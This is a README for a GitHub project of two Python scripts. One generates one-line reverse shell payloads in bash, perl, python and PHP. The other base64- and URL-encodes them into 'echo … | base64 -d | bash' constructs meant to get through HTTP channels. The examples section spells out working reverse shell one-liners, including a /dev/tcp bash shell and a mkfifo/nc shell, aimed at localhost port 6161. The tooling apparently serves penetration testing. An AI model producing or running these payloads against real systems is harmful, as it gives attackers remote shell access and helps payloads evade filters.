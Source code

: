 # reverse_shells_tools
Scripts for generating reverse shells based mostly on PayloadAllTheThings.

Using one script you can generate one-line reverse shell payloads.

Using the other script you can base64 encode the reverse shell payload when appropiate. This encoding takes into account bad chars for supporting channels as http (url friendly base64 encoded payloads).

I normally use the one-liner to pipe the result into the encoder when appropiate.

The tools are **2 scripts**:
- **rs_oneliner.py**: Mostly one-liner reverse shell generator, based on (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)[PayloadsAllTheThings]
- **rs_b64encode.py**: Use it in convination with **rs_oneliner.py** when appropiate payloads are used (payloads normally to be executed in a bash context). Using the **--echo** It can help you constructing an *echo <base64_encoded_payload> | base64 -d | bash* construct. And with **--echo** and **--url** it will use **url encode** the payload too.

## How to use

Minimal execution needs:

```bash
git clone https://github.com/arale61/reverse_shells_tools.git
cd reverse_shells_tools
python ./rs_oneliner.py -h
python ./rs_b64encode.py -h
```

How **I prefer to use it**:
- I have my own **local bin path** where **these scripts are copied** and **set as executables**:
```
~/.local/bin/rs_oneliner.py
~/.local/bin/rs_b64encode.py
```
- This **local bin path is added in my PATH** environment variable in my .zshrc or .bashrc:
```
export PATH=$PATH:$HOME/.local/bin
```
- Then use them as any other executable available for you.

## Examples:


1. Simple bash tcp reverse shell:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash
```


2. Simple bash udp reverse shell:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash --udp
```


3. Simple perl tcp reverse shell for windows:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --perl --win
```


4. Piping into rs_b64encode.py:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py
```


5. Piping into rs_b64encode.py and construction echo decode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py --echo
```


6. Piping into rs_b64encode.py and construction echo decode url_quote_plus encode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py --echo --url
```


7. Simple safe base64 encode:
```bash
./rs_b64encode.py -p 'bash -i >& /dev/tcp/127.0.0.1/6161 0>&10'
```


8. Simple safe base64 encode and use echo decode construct:
```bash
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6161 >/tmp/f' | ./rs_b64encode.py --echo
#or
./rs_b64encode.py -p 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6161 >/tmp/f' --echo
```


9. Piping with rs_oneliner.py:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --python | ./rs_b64encode.py
```


10. Piping with rs_oneliner.py and construction echo decode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --perl | ./rs_b64encode.py --echo
```


11. Piping into rs_b64encode.py and construction echo decode url_quote_plus encode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --phpsystem | ./rs_b64encode.py --echo --url
```